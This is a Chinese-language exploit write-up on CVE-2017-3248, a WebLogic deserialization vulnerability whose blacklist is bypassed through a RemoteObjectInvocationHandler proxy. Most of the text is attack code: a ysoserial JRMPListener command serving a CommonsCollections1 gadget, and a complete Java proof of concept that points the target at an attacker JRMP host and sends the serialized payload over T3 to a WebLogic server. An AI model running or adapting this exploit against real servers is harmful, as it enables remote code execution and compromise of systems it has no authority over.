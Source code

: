     CVE-2017-3248与上述稍有些不一样，但是也是绕过黑名单导致的漏洞。  
该漏洞使用了代理类来进行绕过。  
利用的时候，需要先搭建JRMP服务（这里使用ysosuserial来搭建）：  
```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 "touch /tmp/2017Success"
```  
  
    搭建好JRMP后，需要构造发送给服务端的恶意序列化数据，该漏洞使用的是  
RemoteObjectInvocationHandler类来进行绕过。  
  
    如何封装传递给Client端（这里也就是目标Weblogic服务器）的恶意对象的整体流程大致如下：  
```
ObjID id = new ObjID(new Random().nextInt()); 
TCPEndpoint te = new TCPEndpoint("192.168.13.1", 9999);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
(Registry)Proxy.newProxyInstance(CurrentClassName.class.getClassLoader(), new Class[]{Registry.class}, obj);
```  
  
  
  
    Proxy  
.newProxyInstance方法用于创建一个动态代理对象。这个方法允许在运行时创建实现一个或多个接口的代理对象，并指定一个处理所有方法调用的处理器，也就是上面创建的RemoteObjectInvocationHandler 对象。  
  
    完整JavaPOC如下：  
```
package main;

import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.lang.reflect.Proxy;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class cve_2017_3248 {
    public Object getObject(){
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("192.168.13.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry)Proxy.newProxyInstance(cve_2017_3248.class.getClassLoader(), new Class[]{Registry.class}, obj);
        return proxy;
    }
    public static void main(String[] args) throws Exception {
        Object obj = new cve_2017_3248().getObject();
        byte[] payload2 = Serializables.serialize(obj);
        T3ProtocolOperation.send("192.168.13.131", "7001", payload2);
    }
}
```  
  